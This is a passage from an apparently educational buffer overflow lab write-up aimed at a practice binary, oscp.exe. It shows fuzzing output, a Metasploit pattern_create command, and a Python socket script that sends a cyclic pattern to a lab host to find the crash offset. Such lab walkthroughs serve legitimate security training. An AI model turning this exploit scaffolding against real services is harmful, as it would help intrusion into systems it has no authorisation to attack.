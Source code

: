 ```
Fuzzing with 1800 bytes
Fuzzing with 1900 bytes
Fuzzing with 2000 bytes
Fuzzing crashed at 2000 bytes
```

With that value, we can now create a pattern of a higher amount of bytes than the maximum, let's do this:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2200 > pattern.txt
```

Now, we can create a `exploit.py` file:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix  = "OVERFLOW1 "
offset  = 0
overflow= ""
retn    = ""
padding = ""
payload = ""
postfix = ""

# Read the pattern file:
with open("pattern.txt","r") as f:
    payload = f.read().strip()

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()
```

Before we use the script, we need to restart `oscp.exe` on immunity debugger, simply open it again as before and press the red play button:

![](images/Pasted%20image%2020250529122103.png)

Now, use the script:

```
python3 exploit.py

Sending test pattern...
```
